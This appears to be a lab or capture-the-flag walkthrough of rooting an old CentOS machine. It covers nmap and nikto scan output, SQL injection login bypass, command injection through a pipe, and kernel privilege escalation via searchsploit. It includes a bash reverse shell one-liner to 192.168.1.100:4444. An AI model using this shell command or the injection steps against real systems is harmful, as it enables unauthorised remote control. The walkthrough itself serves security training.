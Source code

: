 ## Initial Scan and Enumeration

We start by conducting an `nmap` scan to gather information about the target machine:

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 17:43 EDT
Nmap scan report for 192.168.1.2
Host is up (0.00034s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            737/udp   status
|_  100024  1            740/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2024-10-19T18:34:08+00:00; -3h09m40s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)
631/tcp  open  ipp      CUPS 1.1
|_http-server-header: CUPS/1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
740/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:8C:23:D8 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
```

### Key Findings:

- **Port 22 (SSH)** is open, running an old version of OpenSSH (3.9p1), with support for SSHv1.
- **Port 80 (HTTP)** and **443 (HTTPS)** are open, running Apache HTTP Server version 2.0.52 on CentOS.
- **Port 631 (CUPS)** is open, indicating an exposed print server interface.
- **Port 3306 (MySQL)** is open but unauthorized.

We can see the following open services:
- **HTTP/HTTPS on ports 80 and 443** – web services, likely running outdated versions of Apache.
- **CUPS on port 631** – potentially misconfigured printer service.

Next, we accessed the page hosted on port 80:

![ProFTPD Exploit Screenshot](./Image/1.png)

Upon analyzing the page source, we found a potential username, `Administrator`, which might be used for the login form.

## Vulnerability Scanning with Nikto

To gather more information, we ran `nikto` on the exposed HTTP ports:

### Scan Results for Port 80:

```bash
└─$ nikto -h http://192.168.1.2   
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.1.2
+ Target Hostname:    192.168.1.2
+ Target Port:        80
+ Start Time:         2024-10-19 17:47:43 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.0.52 (CentOS)
+ /: Retrieved x-powered-by header: PHP/4.3.9.
+ /: The anti-clickjacking X-Frame-Options header is not present.
+ /: The X-Content-Type-Options header is not set.
+ Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.54).
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE.
+ HTTP TRACE method is active, potentially vulnerable to Cross-Site Tracing (XST).
+ /icons/: Directory indexing found.
+ /manual/: Web server manual found.
+ /#wp-config.php#: #wp-config.php# file found. This file contains credentials.
+ End Time: 2024-10-19 17:48:23 (GMT-4)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

### Scan Results for Port 631:

```bash
└─$ nikto -h http://192.168.1.2:631
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.1.2
+ Target Hostname:    192.168.1.2
+ Target Port:        631
+ Start Time:         2024-10-19 17:50:42 (GMT-4)
---------------------------------------------------------------------------
+ Server: CUPS/1.1
+ The X-Frame-Options and X-Content-Type-Options headers are not set.
+ HTTP method ('Allow' Header): 'PUT' method could allow file uploads on the server.
+ End Time: 2024-10-19 17:51:55 (GMT-4)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Both scans identified potential vulnerabilities and weak headers.

## Exploiting the Web Interface

We then attempted a SQL injection on the login form:

![ProFTPD Exploit Screenshot](./Image/2.png)

The injection worked, and we gained access to the system. We verified that we could execute arbitrary commands by escaping bash commands using the pipe `|`.

```bash
| ls
```

![ProFTPD Exploit Screenshot](./Image/3.png)

The command executed successfully, confirming command injection capabilities:

![ProFTPD Exploit Screenshot](./Image/4.png)

## Gaining Shell Access

Next, we set up a reverse shell using a bash one-liner:

```bash
| bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

We confirmed successful shell access, running as the `apache` user:

![ProFTPD Exploit Screenshot](./Image/5.png)

## Privilege Escalation

We identified that the system was running an old Linux kernel version:

```bash
uname -r
2.6.9-89.ELsmp
```

![ProFTPD Exploit Screenshot](./Image/7.png)

Using `searchsploit`, we found a local privilege escalation exploit for this kernel version.

![ProFTPD Exploit Screenshot](./Image/8.png)

We downloaded the exploit using `searchsploit -m`, set up a local HTTP server using Python to transfer it to the target machine, and compiled the exploit. After executing it, we successfully gained root access.

![ProFTPD Exploit Screenshot](./Image/9.png)

## Conclusion

We successfully rooted the target system by leveraging outdated software versions, SQL injection vulnerabilities, and privilege escalation exploits. This engagement highlights the importance of keeping systems and software updated and securing web applications from common vulnerabilities.